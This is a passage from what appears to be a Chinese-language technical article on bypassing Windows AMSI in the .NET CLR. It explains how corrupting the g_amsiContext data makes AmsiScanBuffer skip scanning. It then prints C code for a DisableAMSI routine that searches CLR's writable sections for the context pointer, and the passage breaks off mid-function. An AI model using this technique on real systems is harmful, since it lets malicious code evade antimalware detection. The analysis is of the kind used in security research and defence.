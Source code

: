 ```
          // software.
          GetHRMsg(ERROR_VIRUS_INFECTED, &error_string, 0);
          ThrowHR(COR_E_BADIMAGEFORMAT, &error_string);          
        }           
      }
    }
}
```

我们看到，CLR 使用了一个名为 g_amsiContext 的全局变量，该变量指向 AmsiInitialize 在首次使用 AmsiScan 时创建的 AMSI 上下文。这里需要注意的是，如果 AMSI 的上下文被破坏，AmsiScan 并不会抛出任何错误。如果 AmsiScanBuffer 返回 S_OK，则只会检查 amsiResult。使用 COR_E_BADIMAGEFORMAT 和 ERROR_VIRUS_INFECTED 来调用 ThrowHR 时，即使缓冲区确实包含有害代码，也会将其视为次要错误。但是，如果将格式错误的上下文传递给 AmsiScanBuffer 的话，它将返回 E_INVALIDARG，并且永远不会检查缓冲区的内容。此外，AmsiScan 并不关心 AmsiScanBuffer 失败的原因。但是，真正需要重点考察的应该是，“既然系统支持 AMSI 并且检测失败了，那么失败的原因到底是什么呢？”。

第一种绕过 AMSI 机制的方法（篡改数据）
----------------------

Matt Graeber 提供了一个 PoC，它能够破坏 CLR!g_amsiContext 所指向的上下文数据，从而导致 AmsiScanBuffer 返回 E_INVALIDARG。从 CLR 的实现代码可以看出，这种绕过方法是有效的，因为 CLR!AmsiScan 的结果永远不会是验证成功或失败。相反，它只会抛出一个错误，并在尝试加载有害软件时终止宿主应用程序。但是，托管. NET 程序集的非托管应用程序可能会处理任何 C++ 异常。Windows Defender 仍会记录有害代码的检测结果，但非托管宿主应用程序在某些情况下会继续运行。要通过 g_amsiContext 禁用 AMSI，可以搜索 PEB.ProcessHeap 指向的堆内存，也可以搜索. data 段的虚拟地址空间，并查找其中的每个指针。下面的代码演示的是后一种方法。只有 CLR 调用 AmsiScan 之后，这种方法才能奏效。

```
BOOL DisableAMSI(VOID) {
    LPVOID                   hCLR;
    BOOL                     disabled = FALSE;
    PIMAGE_DOS_HEADER        dos;
    PIMAGE_NT_HEADERS        nt;
    PIMAGE_SECTION_HEADER    sh;
    DWORD                    i, j, res;
    PBYTE                    ds;
    MEMORY_BASIC_INFORMATION mbi;
    _PHAMSICONTEXT           ctx;

    hCLR = GetModuleHandleA("CLR");

    if(hCLR != NULL) {
      dos = (PIMAGE_DOS_HEADER)hCLR;  
      nt  = RVA2VA(PIMAGE_NT_HEADERS, hCLR, dos->e_lfanew);  
      sh  = (PIMAGE_SECTION_HEADER)((LPBYTE)&nt->OptionalHeader + 
             nt->FileHeader.SizeOfOptionalHeader);

      // scan all writeable segments while disabled == FALSE
      for(i = 0; 
          i < nt->FileHeader.NumberOfSections && !disabled; 
          i++) 
      {
        // if this section is writeable, assume it's data
        if (sh[i].Characteristics & IMAGE_SCN_MEM_WRITE) {
          // scan section for pointers to the heap
          ds = RVA2VA (PBYTE, hCLR, sh[i].VirtualAddress);

          for(j = 0; 
              j < sh[i].Misc.VirtualSize - sizeof(ULONG_PTR); 
              j += sizeof(ULONG_PTR)) 
          {
            // get pointer
            ULONG_PTR ptr = *(ULONG_PTR*)&ds[j];
            // query if the pointer
            res = VirtualQuery((LPVOID)ptr, &mbi, sizeof(mbi));
            if(res != sizeof(mbi)) continue;

            // if it's a pointer to heap or stack
```